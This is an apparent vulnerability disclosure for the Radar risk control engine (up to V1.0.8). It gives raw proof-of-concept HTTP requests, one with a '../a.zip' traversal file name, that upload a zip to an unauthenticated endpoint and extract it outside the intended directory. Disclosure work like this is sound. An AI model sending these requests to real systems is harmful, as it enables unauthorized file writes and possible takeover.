 radar Arbitrary file upload vulnerability

##### Vulnerability description:

Radar is an open-source lightweight real-time risk control engine. Radar has an arbitrary file upload vulnerability. Unauthenticated attackers can directly upload any file to the system.

https://github.com/wfh45678/radar

##### Version:

<= V1.0.8

##### Vulnerability Recurrence:

Interface：POST /services/v1/common/upload

Postman calls the interface and sets the file parameter value to compressed file and the key parameter value to machine in the request body.
![Image](https://github.com/user-attachments/assets/2f550982-0e7e-4bdd-8fd6-cd05f7174b6c)


After uploading the compressed file a.zip normally, it will be decompressed to the directory d://radar.
![Image](https://github.com/user-attachments/assets/94252eee-1a04-4373-a23e-65eb1a611748)

```
POST /services/v1/common/upload HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate, br
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Connection: close
Cache-Control: no-cache
Host: localhost:6580
Content-Type: multipart/form-data; boundary=--------------------------739977417385369968549200
Content-Length: 464


----------------------------739977417385369968549200
Content-Disposition: form-data; name="file"; filename="a.zip"
Content-Type: application/zip


PK
```

Change the file name to/ a.zip， Cross over and decompress to D://.
![Image](https://github.com/user-attachments/assets/94a52084-96e8-471d-b51b-fb845ce7307e)


```
POST /services/v1/common/upload HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate, br
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Connection: close
Cache-Control: no-cache
Host: localhost:6580
Content-Type: multipart/form-data; boundary=--------------------------739977417385369968549200
Content-Length: 464


----------------------------739977417385369968549200
Content-Disposition: form-data; name="file"; filename="../a.zip"
Content-Type: application/zip


PK
```

##### Vulnerability Analysis：

com.pgmmers.radar.util.ZipUtils#unZipIt does not filter paths, resulting in path traversal
![image](https://github.com/user-attachments/assets/68c22b1a-2092-4462-8a41-a5ffc8dd9741)










